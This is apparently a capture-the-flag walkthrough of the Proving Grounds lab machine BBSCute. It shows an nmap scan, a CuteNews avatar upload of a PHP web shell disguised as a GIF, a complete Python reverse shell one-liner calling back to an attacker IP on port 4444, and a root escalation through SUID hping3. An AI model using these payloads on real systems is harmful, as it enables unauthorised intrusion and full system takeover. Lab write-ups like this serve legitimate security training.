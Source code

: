 ```yaml
---
title: BBSCute
categories: [Proving Grounds Play]
tags: [CMS, CuteNews, RFI, hping3, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  BBSCute Machine 🖥️
---
```



### Lets check the IP address of victim machine first ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled.png)

```bash
IP : 10.0.2.48
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/BBSCute]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.48
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 19:53 IST
Nmap scan report for 10.0.2.48
Host is up (0.00056s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) LOGIN-DELAY(10) STLS TOP UIDL PIPELINING USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: UTF8(USER) LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) TOP UIDL PIPELINING USER
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
MAC Address: 08:00:27:BF:70:A5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%201.png)

### Directory Traversal ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%202.png)

Now lets dig into the index.php file →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%203.png)

Lets Register first →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%204.png)

Now I can’t find captcha this was because of my IP address configuration so manually I need to call `captcha.php` file for captcha ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%205.png)

with that lets login Now with my credentials ⤵️

```bash
Username : shiva 
Password : password
```
{: .nolineno}

After login I got this interface ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%206.png)

After looking for an exploit I got this [exploit](https://www.exploit-db.com/exploits/48800) and I followed the path →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%207.png)

Here in this exploit I have to create a payload file like this ⤵️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%208.png)

Now with gif magic byte the file is now image file →

Now lets upload it through our dashboard ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%209.png)

Now when I saved it , It got successfully uploaded so now I have to load the file for that lets follow through the exploit again —>

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2010.png)

Through this my URL was → [http://10.0.2.48/uploads/avatar_shiva_payload.php?cmd=whoami](http://10.0.2.48/uploads/avatar_shiva_payload.php?cmd=whoami)

In response I got ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2011.png)

Now its time for reverse shell python payload input →

```bash
Python Payload >
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2012.png)

Now when I got the shell lets check for SUIDs and GUIDs →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2013.png)

Also I found `user.txt` file —>

```bash
www-data@cute:/home/fox$ cat user.txt
cat user.txt
dcb8189a0eaf7a690a67785a7299be60
www-data@cute:/home/fox$
```
{: .nolineno}

Now lets exploit our hping3 ⤵️

```bash
www-data@cute:/$ /usr/sbin/hping3    
/usr/sbin/hping3
hping3> /bin/sh -p
/bin/sh -p
# whoami
whoami
root
#
# ls -al
ls -al
total 32
drwx------  3 root root 4096 Sep 23  2020 .
drwxr-xr-x 18 root root 4096 Sep 17  2020 ..
-rw-------  1 root root   70 Sep 23  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root   36 Sep 17  2020 .lesshst
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Sep 17  2020 localweb
-rw-------  1 root root   33 Sep 18  2020 root.txt
# cat root.txt
cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }